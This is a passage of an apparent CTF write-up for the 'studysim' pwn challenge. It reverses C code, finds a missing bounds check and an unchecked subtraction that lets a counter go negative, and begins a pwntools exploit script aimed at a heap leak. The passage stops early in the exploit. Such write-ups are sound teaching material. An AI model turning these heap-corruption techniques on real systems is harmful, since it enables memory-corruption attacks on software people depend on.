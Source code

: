 We can see that there are **no bounded checks** for the maximum allocated_count which is a potential bug.

```c
  if ( allocated_count == 7 )              
```

* **DO**
    1. This function just asks for how many worksheets we would like to finish and subtracts the **allocated\_count** with the number that we give as input.
    2. There are no checks here and hence allocated count can become a negetive number too.
    3. Finally it prints the allocated_count.

This lets us add chunks anywhere in memory but first we need leaks to go ahead.

```c
  puts("How many worksheets would you like to finish?");
  read_ulong((unsigned __int64 *)&v1);
  allocated_count -= v1;
  printf("You did %lu worksheets. Only %ld more to go!\n", v1, allocated_count);

```

This is it for Reversing , let's head on to converting the bugs that we found into primitives.

## EXPLOIT DEVELOPMENT AND ANALYSIS

Initially we kind of got stuck as to how we could leak , but then , Heap Leak can be easily extracted by simply allocating a chunk at **allocated\_count**.

```py
from pwn import *
import sys
from time import sleep

LIBC = ELF("./libc.so.6")
if(len(sys.argv)>1):
    io=remote('pwn.hsctf.com',5007)
    context.noptrace=True
    context.log_level="CRITICAL"
else:
    io=process('./studysim')#,env = {"LD_PRELOAD" : "./libc.so.6"})

reu = lambda a : io.recvuntil(a)
sla = lambda a,b : io.sendlineafter(a,b)
sl = lambda a : io.sendline(a)
rel = lambda : io.recvline()
sa = lambda a,b : io.sendafter(a,b)
re = lambda a : io.recv(a)

def add(size,content):
    sla('> ','add')
    sla('your worksheet?\n',str(size))
    sla('your worksheet?\n',content)

def do_work(num):
    sla('> ','do')
    sla('like to finish?\n',str(num))

def exit():
    sla('> ','sleep')

stack = 0x404060

if __name__=="__main__":
    add(0x200,'1'*0x1ff)
    do_work(5)
```